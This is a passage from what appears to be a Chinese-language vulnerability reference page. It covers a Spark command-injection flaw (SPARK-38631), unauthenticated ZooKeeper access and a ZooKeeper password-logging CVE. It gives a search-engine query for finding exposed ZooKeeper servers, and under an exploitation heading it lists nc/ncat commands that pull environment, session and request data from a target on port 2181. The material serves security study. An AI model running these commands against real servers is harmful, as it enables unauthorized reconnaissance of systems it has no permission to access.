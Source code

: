 **SPARK-38631**
- 描述

    当文件名称被恶意用户控制时，存在通过`Utils.unpack`实现任意shell命令注入的风险.

- 影响范围

    - 3.1.2
    - 3.2.1
    - 3.3.0

- 相关文章
    - [SPARK-38631 Hadoop unTar函数引发的命令注入漏洞](https://mp.weixin.qq.com/s/3AsNUIzPJPTvay10LCpb8w)

---

### ZooKeeper

Apache Zookeeper 是美国阿帕奇（Apache）软件基金会的一个软件项目，它能够为大型分布式计算提供开源的分布式配置服务、同步服务和命名注册等功能。

> fofa : app="APACHE-ZooKeeper"

**未授权访问漏洞**
- 描述

    Zookeeper 的默认开放端口是 2181。Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill 命令）。攻击者能够执行所有只允许由管理员运行的命令。

- 相关文章
    - [ZooKeeper 未授权访问漏洞](https://blog.csdn.net/qq_23936389/article/details/83826028)
    - [攻击大数据应用:ZooKeeper](http://www.polaris-lab.com/index.php/archives/41/)

- 搭建环境
    ```bash
    wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
    tar -xzvf zookeeper-3.4.14.tar.gz
    cd zookeeper-3.4.14/conf
    mv zoo_sample.cfg zoo.cfg
    ../bin/zkServer.sh start
    ../bin/zkCli.sh -server 127.0.0.1:2181  # 连接 server
    ```

- 利用
    ```bash
    echo envi|nc [ip] 2181      # 打印有关服务环境的详细信息
    echo dump |ncat [ip] 2181   # 列出未完成的会话和临时节点
    echo reqs |ncat [ip] 2181   # 列出未完成的请求
    echo ruok |ncat [ip] 2181   # 测试服务器是否运行在非错误状态
    echo stat |ncat [ip] 2181   # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server [ip]:port
    ```

**CVE-2014-0085 ZooKeeper 信息泄露漏洞**
- 描述

    Apache Zookeeper 中存在安全漏洞，该漏洞源于程序记录明文 admin 密码。本地攻击者可通过读取日志利用该漏洞获取敏感信息。
